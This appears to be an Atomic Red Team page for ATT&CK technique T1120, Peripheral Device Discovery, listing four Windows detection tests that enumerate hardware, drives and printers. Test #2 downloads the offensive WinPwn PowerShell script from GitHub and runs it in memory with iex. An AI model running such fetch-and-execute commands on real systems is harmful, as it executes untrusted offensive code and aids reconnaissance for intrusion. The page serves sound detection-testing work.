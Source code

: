 # T1120 - Peripheral Device Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1120)
<blockquote>Adversaries may attempt to gather information about attached peripheral devices and components connected to a computer system.(Citation: Peripheral Discovery Linux)(Citation: Peripheral Discovery macOS) Peripheral devices could include auxiliary resources that support a variety of functionalities such as keyboards, printers, cameras, smart card readers, or removable storage. The information may be used to enhance their awareness of the system and network environment or may be used for further actions.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Win32_PnPEntity Hardware Inventory](#atomic-test-1---win32_pnpentity-hardware-inventory)

- [Atomic Test #2 - WinPwn - printercheck](#atomic-test-2---winpwn---printercheck)

- [Atomic Test #3 - Peripheral Device Discovery via fsutil](#atomic-test-3---peripheral-device-discovery-via-fsutil)

- [Atomic Test #4 - Get Printer Device List via PowerShell Command](#atomic-test-4---get-printer-device-list-via-powershell-command)


<br/>

## Atomic Test #1 - Win32_PnPEntity Hardware Inventory
Perform peripheral device discovery using Get-WMIObject Win32_PnPEntity

**Supported Platforms:** Windows


**auto_generated_guid:** 2cb4dbf2-2dca-4597-8678-4d39d207a3a5






#### Attack Commands: Run with `powershell`! 


```powershell
Get-WMIObject Win32_PnPEntity | Format-Table Name, Description, Manufacturer > $env:TEMP\T1120_collection.txt
$Space,$Heading,$Break,$Data = Get-Content $env:TEMP\T1120_collection.txt
@($Heading; $Break; $Data |Sort-Object -Unique) | ? {$_.trim() -ne "" } |Set-Content $env:TEMP\T1120_collection.txt
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\T1120_collection.txt -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - WinPwn - printercheck
Search for printers / potential vulns using printercheck function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** cb6e76ca-861e-4a7f-be08-564caa3e6f75






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
printercheck -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #3 - Peripheral Device Discovery via fsutil
Performs pheripheral device discovery utilizing fsutil to list all drives.

**Supported Platforms:** Windows


**auto_generated_guid:** 424e18fd-48b8-4201-8d3a-bf591523a686






#### Attack Commands: Run with `command_prompt`! 


```cmd
fsutil fsinfo drives
```






<br/>
<br/>

## Atomic Test #4 - Get Printer Device List via PowerShell Command
This test uses PowerShell to list printers on a Windows system, demonstrating a discovery technique attackers might use to 
gather details on connected devices. Using Get-Printer, they can view information on all available printers, identifying 
potential devices for further targeting.

**Supported Platforms:** Windows


**auto_generated_guid:** 5c876daf-db1e-41cf-988d-139a7443ccd4






#### Attack Commands: Run with `powershell`! 


```powershell
Get-Printer
```






<br/>
